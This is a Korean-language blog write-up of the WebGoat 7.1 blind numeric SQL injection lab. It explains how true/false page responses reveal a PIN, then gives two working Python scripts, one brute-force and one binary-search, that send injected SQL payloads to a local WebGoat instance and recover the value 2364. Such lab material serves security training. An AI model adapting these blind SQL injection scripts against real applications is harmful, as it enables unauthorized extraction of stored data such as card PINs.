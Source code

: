 ```yaml
---
title: "Webgoat7.1 Blind Numeric SQL Injection"
layout: post
date: 2020-04-22
image: /assets/images/mark-img01.png
headerImage: false
tag:
- sql
- blind
- injection
- exploit
category: blog
author: pil9

---
```

 
![problem]({{site.url}}/images/blind_p.png){: class="center"}
<figcaption class="caption">Blind sql injection 문제</figcaption>  
<br>
pins DB 테이블에서 cc_number가 '1111222233334444'인 pin 값을 찾는 문제입니다.

문제에서 사전에 주어진 정보는 테이블명(pins), 필드명(cc_number), 101 입니다.

<br>
![problem]({{site.url}}/images/p2.png){: class="center"}
<figcaption class="caption">유효 pin값은 101부터</figcaption>
<br>
위와 같이 쿼리에 논리식 대입이 가능하므로 출력되는 결과값을 기준으로 pin 값을 유추해 내면 됩니다.  

결과값으로 'Invalid account number'가 출력되면 조건식이 맞지 않는 것을 알 수 있습니다.

가장 먼저 pin값 자리수를 유추해야 하므로 100, 1000, 10000 등의 단위로 아래의 쿼리값을 반복해서 확인합니다.

<pre><code class = "language-sql">예시)
101 and (select pin from pins where cc_number = '1111222233334444' > 1000)
</code></pre>

pin 값이 1000보다 클 경우에는 'Account number is valid'

10000보다 클 경우에는 'Invalid account number' 가 출력되므로

조건식을 만족하는 pin 값의 범위는 1000 < pin < 10000 임을 유추할 수 있습니다.

약 9천개의 쿼리값을 다 날려볼 수는 없으므로 아래와 같은 exploit 코드를 작성하여 flag 값을 얻을 수 있습니다.

<pre><code class = "language-python">import requests

cookie = {'JSESSIONID':"C665F3601E7F6DE3D7F0FBB35EDE83C5"}
url = "http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100"
attack = "101 and (select pin from pins where cc_number='1111222233334444')="

for i in range(1000,10000):

    params = {'account_number':attack+str(i)}

    r = requests.post(url,data=params,cookies=cookie)
    if 'Account number is valid.' in r.text:

        print ('Account Number:',i)
        exit()
</code></pre>

<pre><code class="language-python">//결과 값
Account Number: 2364
</code></pre>

추가로 flag값의 범위가 클 경우 위와 같은 코드로는 시간이 오래 걸리므로 아래 코드와 같이 이진 탐색등의 탐색 알고리즘을 사용하여 작성하시면 됩니다.

<pre><code class="language-python">import requests

# 이진 탐색 알고리즘을 통한 flag 탐색 함수
def search(pin_data):
    start=0
    end = len(pin_data) -1
    while start <= end:
        mid = (start + end) // 2

        # 중간 값이 한개이면 flag
        if (end-start) == 2:
            return mid
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(mid) + ")"}
        res=s.post(url, data=data)
        
        if 'Account number is valid' in res.text:
            start = mid + 1
        else:
            end = mid -1

# 로그인 세션 처리는 첫번째 코드로 해도 상관없음
login_url = 'http://localhost:8080/WebGoat/j_spring_security_check'
login_data = {
    'username' : 'guest','password' : 'guest'
}
url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'

with requests.Session() as s:
    # 로그인 및 세션 저장(as s)
    res = s.post(login_url, data=login_data, verify=False, allow_redirects=False)
    
    # pin 초기 값 set
    pin=1
    
    # pin 자릿수 탐색
    for i in range(10):
        data={'account_number':"101 and (select pin from pins where cc_number = '1111222233334444' >=" +
        str(pin) + ")"}
        res=s.post(url, data=data)
        if 'Invalid account number' in res.text:
            pin=int(pin/10)
            break
        pin=int(pin*10)
    
    # 이진 탐색을 위한 리스트 생성
    li = [i for i in range(pin,pin*10+1)]
    
    # 정상 pin 값 서칭
    flag = search(li)

    print("AC NUMBER :",flag)
                

</code></pre>

<pre><code class="language-python">//결과값
AC Number: 2364
</code></pre>




